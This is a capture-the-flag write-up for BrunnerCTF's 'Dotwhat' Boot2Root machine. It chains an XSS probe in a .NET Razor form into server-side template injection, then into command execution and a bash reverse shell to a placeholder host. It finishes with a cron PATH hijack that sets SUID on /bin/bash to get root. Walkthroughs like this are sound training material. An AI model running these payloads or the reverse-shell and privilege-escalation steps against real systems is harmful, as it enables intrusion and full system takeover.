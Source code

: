 # Dotwhat – Boot2Root (BrunnerCTF)

In this writeup, we’ll go through solving the **Dotwhat** Boot2Root challenge from **BrunnerCTF**.  
The target is a `.NET` web application, and we’ll exploit it step-by-step to gain user and root access.
![Image](images/Pasted%20image%2020250824164409.png)
<br/>

![Image](images/Pasted%20image%2020250824172856.png)
<br/>


---

## 1. Initial Recon
![Image](images/Pasted%20image%2020250824164640.png)
<br/>

After opening the website, we’re presented with a form that has **three input fields**.

Since the app is built with **.NET**, my first thought was to test for **XSS injection** and **SQL injection** in the fields, lets start with **XSS**.

I injected the following payload into each input to identify which one is vulnerable:
![Image](images/Pasted%20image%2020250824164817.png)
<br/>

```html
<script>alert("xss 1 or 2 or 3")</script>
```

After submitting, only the **Instruction** input field triggered the alert.  
This confirmed an **XSS vulnerability** due to raw HTML rendering.
![Image](images/Pasted%20image%2020250824164937.png)
<br/>
![Image](images/Pasted%20image%2020250824165004.png)
<br/>

---
## 2. From XSS to SSTI

By fingerprinting the application with **Wappalyzer**, we confirmed it’s a **.NET web app**.  
In .NET (Razor pages), server-side template injection (SSTI) is possible by using `@` syntax.
![Image](images/Pasted%20image%2020250824165106.png)
<br/>

I tested SSTI with a simple arithmetic payload:

```html
<script>
@(7 * 7)
</script>
```
![Image](images/Pasted%20image%2020250824165444.png)
<br/>

Looking at the **page source**, I saw the value `49` — proof that SSTI was working!  
This meant we could escalate from XSS → SSTI → RCE.
<br/>
![Image](images/Pasted%20image%2020250824165615.png)
<br/>


---

## 3. Achieving Remote Code Execution

To determine the OS, I attempted to run `pwd`:

```html
<script>
@{
    var proc = new System.Diagnostics.Process();
    proc.StartInfo = new System.Diagnostics.ProcessStartInfo("pwd");
    proc.StartInfo.RedirectStandardOutput = true;
    proc.StartInfo.UseShellExecute = false;
    proc.Start();
    @proc.StandardOutput.ReadToEnd();
}
</script>
```
![Image](images/Pasted%20image%2020250824170349.png)
<br/>


The output confirmed we were on a **Linux host**.
![Image](images/Pasted%20image%2020250824170423.png)
<br/>

### Reverse Shell Payload

Next, I crafted a reverse shell payload to connect back to my attacker machine using ngrok:
![Image](images/Pasted%20image%2020250824170454.png)
<br/>
![Image](images/Pasted%20image%2020250824170555.png)
<br/>
![Image](images/Pasted%20image%2020250824170749.png)
<br/>


```html
<script>
@{
    var proc = new System.Diagnostics.Process();
    proc.StartInfo = new System.Diagnostics.ProcessStartInfo("/bin/bash", "-c \"/bin/bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1\"");
    proc.StartInfo.UseShellExecute = false;
    proc.StartInfo.RedirectStandardOutput = true;
    proc.StartInfo.RedirectStandardError = true;
    proc.Start();
    @proc.StandardOutput.ReadToEnd()
    @proc.StandardError.ReadToEnd()
}
</script>
```

On my listener (`nc -lvnp 4444`), I received a shell as the **user**.
![Image](images/Pasted%20image%2020250824170929.png)
<br/>

---

## 4. User Flag

With the shell established:

```bash
cd ~
cat user.txt
```

Output:

```
brunner{Something here}
```

User flag captured ✅

---

## 5. Privilege Escalation

To escalate, I enumerated **SUID binaries**:

```bash
find find / -perm -4000 -o -perm -2000 -type f 2>/dev/null    
/usr/bin/chage
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/expiry
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pam_extrausers_chkpwd
/usr/sbin/unix_chkpwd

```

Among them, `/usr/bin/crontab` stood out.

### Cron Exploit

Checking `/etc/cron.d/`, I found a custom cron job:

```bash
ls -la /etc/cron.d/          
total 12
drwxr-xr-x. 1 root root  14 Aug 23 19:11 .
drwxr-xr-x. 1 root root  12 Aug 23 19:11 ..
-rw-r--r--. 1 root root 102 Mar 31  2024 .placeholder
-rw-r--r--. 1 root root 201 Apr  8  2024 e2scrub_all
-rw-r--r--. 1 root root 189 Aug 23 19:11 migrate
cat /etc/cron.d/migrate    
* * * * * root cd /home/user/app && /usr/bin/dotnet ef database update >> /var/log/migrate.log 2>&1
```

Notice: The `PATH` includes `/opt/devtools` and the cron executes `dotnet`.  
Since `/opt/devtools/` is writable by our user, we can hijack it.

I created a malicious fake `dotnet` binary:

```bash
echo '#!/bin/bash
chmod u+s /bin/bash' > /opt/devtools/dotnet
chmod +x /opt/devtools/dotnet
```

After a minute, cron executed our payload and `/bin/bash` became SUID.

---

## 6. Root Shell & Flag

Now I spawned a root shell:

```bash
/bin/bash -p
id
```

```
uid=1001(user) gid=1001(user) euid=0(root) groups=1001(user),100(users)
```

We are **root**!

Finally, retrieving the root flag:

```bash
cd /root
cat root.txt
```

Output:

```
brunner{SomethingSecret here}
```

Root flag captured ✅

---

## Conclusion

This challenge demonstrated a full attack chain:

1. **XSS → SSTI** in a .NET Razor app
    
2. **SSTI → RCE** with `System.Diagnostics.Process`
    
3. **Reverse shell** for initial foothold
    
4. **Cron + PATH hijacking** for privilege escalation
    
5. **Root access** obtained successfully
    

A neat and realistic Boot2Root machine! 🚩
